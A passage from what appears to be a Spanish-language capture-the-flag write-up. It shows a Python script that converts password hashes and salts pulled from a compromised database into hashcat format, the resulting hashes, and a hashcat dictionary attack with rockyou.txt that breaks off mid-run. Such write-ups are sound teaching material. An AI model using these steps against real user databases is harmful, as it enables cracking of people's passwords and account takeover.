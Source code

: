 ```bash
# Recorremos las filas con un bucle for
for row in rows:
    email, password, salt, is_admin = row

    # Decodifimos la contraseña de hexadecimal
    decoded_hash = bytes.fromhex(password)

    # Codificamos la contraseña y la sal a base64
    hash64 = base64.b64encode(decoded_hash).decode('utf-8')
    salt64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')

    # Lo guardamos en un archivo hash_file.txt
    with open("hash_file.txt", "a") as hash_file:
        hash_file.write(f"sha256:10000:{salt64}:{hash64}\n")

# cerramos la conexion ala base de datos
conn.close()
➜  exploits
```

- Una vez ejecutado obtenemos los **hashes** .

```bash
➜  exploits cat hash_file.txt
sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
➜  exploits
```

- Ahora buscamos el modo que usaremos en **hashcat** <https://hashcat.net/wiki/doku.php?id=example_hashes> .

<p align="center">
<img src="https://i.imgur.com/LidRLa9.png">
</p>

Ahora crackeamos los **hashes** .

```bash
➜  exploits hashcat -m 10900 hash_file.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-skylake-avx512-Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz, 1426/2916 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
```